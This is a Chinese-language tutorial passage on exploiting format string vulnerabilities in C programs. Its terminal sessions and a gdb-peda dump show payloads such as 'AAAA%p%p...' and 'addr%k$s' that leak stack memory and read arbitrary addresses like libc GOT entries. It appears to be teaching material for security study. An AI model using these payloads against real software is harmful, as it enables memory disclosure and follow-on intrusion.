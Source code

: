```c

```

可以看出，第二次printf时，将0x8007325 处视为字符串变量并进行了打印。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

```
yutao@ubuntu:~/Desktop$ ./a.out 
%4$s            
00000001.00222222.ffffffff.%4$s
Segmentation fault (core dumped)
```

小技巧总结：

> 1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
> 2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。



## 泄露任意地址内存

我们想要泄露某一个 libc 函数的 got 表内容，从而得到其地址，进而获取 libc 版本以及其他函数的地址，能不能这样做呢？当然可以。

假设我们知道格式化字符串在输出调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数，可以用如下的方式来获取某个指定地址addr的内容。

```
addr%k$s
```

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```
[tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为 tag，后面会跟上若干个 %p 来输出栈上的内容，如果内容与我们前面的 tag 重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```c
yutao@ubuntu:~/Desktop$ ./a.out 
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.00222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xff96a4500xf7f1f9900x80491d10x414141410x702570250x702570250x702570250x702570
```

由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，是格式化字符串的第 4 个参数。我们可以来测试一下:

```
yutao@ubuntu:~/Desktop$ ./a.out 
%4$s
00000001.00222222.ffffffff.%4$s
Segmentation fault (core dumped)
```

程序崩了，这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，所以程序就崩溃了。

```
gdb-peda$ r
Starting program: /home/yutao/Desktop/a.out 
%4$s
[----------------------------------registers-----------------------------------]
EAX: 0x804a00b ("%08x.%08x.%08x.%s\n")
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0x0 
EDX: 0xf7fb3000 --> 0x1e6d6c 
ESI: 0xf7fb3000 --> 0x1e6d6c 
EDI: 0xf7fb3000 --> 0x1e6d6c 
EBP: 0xffffd1d8 --> 0x0 
ESP: 0xffffd13c --> 0x804921e (<main+104>:	add    esp,0x20)
EIP: 0xf7e1fde0 (<printf>:	endbr32)
```